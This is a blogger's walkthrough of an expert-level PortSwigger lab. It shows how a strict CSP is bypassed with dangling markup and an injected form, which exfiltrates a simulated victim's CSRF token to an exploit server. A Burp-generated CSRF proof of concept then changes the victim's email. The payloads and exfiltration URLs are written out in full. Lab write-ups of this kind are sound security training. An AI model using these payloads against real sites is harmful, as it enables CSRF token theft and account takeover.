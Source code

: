 ```yaml
---
title: Reflected XSS protected by very strict CSP, with dangling markup attack
date: 2023-11-25 00:34:00 +0800
categories: [Web, XSS]
tags: [Web, Portswigger]
---
```

Today is nearly two years since the first Portswigger Web Security was solved, I solved the last one. In this blog post, I'll share how I solve it.

## Description of the Lab

- Lab Level: Expert

This lab uses a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external websites.

To solve the lab, first perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

The lab has CSP `Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';` which make it harder to be exploited because it prevents all the access to out domains although you can inject HTML tags like `img` or `table`  

The vulnerable parameter is `email` in endpoint `/my-account/change-email` and the XSS payload is being reflected in the `/my-account`

## First Solution 

Portswigger official solution is to use a payload to exploit dangling markup attack by sending `base` tag with attribute `target='` ending in single quote which will make the rest of the page being sent to the exploit server or Burp collaborator client abusing the same `eamil` parameter with link `a` tag as following:

```javascript
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email="><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='';
}
</script>
```

![[ln1.png]]

If it sends successfully the name of the DOM `window` name will be changed to obtain the CSRF token then send it to the victim to change it's email address.  

![[ln2.png]]

Unfortunately, this exploit doesn't work anymore on Google Chrome, By only working in Firefox we can't solve the lab because the victim is only using Chrome client.

## Contacting Portswigger Team 

I was wondering why this behavior is like this I read on thread in [their website](https://forum.portswigger.net/thread/lab-reflected-xss-protected-by-csp-with-dangling-markup-attack-288ada8e) of a user complaining of such problem but in 2022 of update on Google Chrome make the lab unsolvable. So, I ask them about it and indeed it was this and they reblied that there is a competition to see if any other users can also figures this out on [X](https://twitter.com/portswiggerres/status/1726605124443750893?s=46) I notice that no one reply on it in the last 4 days then I take it personal challenge to solve it.

## The Problem 

The real problem I'm facing is to make the application callback to exploits server. I tried many 

## The Solution
 
The exploit scenario in my mind: 
- Determine how to make the application callback the exploit server.
- Craft exploit to exflitrate the CSRF token on myslef then the victim.
- Craft a POC to change the email of the email address of the victem after gettting its CSRF token. 

After trying many things I come thought a writeup called [Postcards from the post-XSS world (2011)](https://lcamtuf.coredump.cx/postxss/) indeed it was old but I really was determine to solve it. I a section the witter talk about how you can inject a `form` tag so the parser will ignore the first one and use the one that I craft to get the CSRF token and start with: 

```javascript 
"></form><form%20class="login-form"%20name="evil-form"%20action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log"%20method="POST">
```

After some tries and playing with HTML I know all the factors and how it suppose to work and it finally did!

![[Pasted image 20231125122402.png]]

```javascript
%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22POST%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E
```

![[Pasted image 20231125122458.png]]

Put it in the exploit server:

```
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

I delivered the exploit to victim and got the CSRF token:

![[Pasted image 20231125113705.png]]

Then go to the `/my-account/change-email` and make a POC using BurpSuite:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Qqk80OwNNtB2cMUyIanl6OfjlXbydxgf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Finally the lab is solved!

![[solved.png]]

And officially I solved all the Portswigger labs and ranked as on their hall of fame

![[Pasted image 20231125124325.png]]
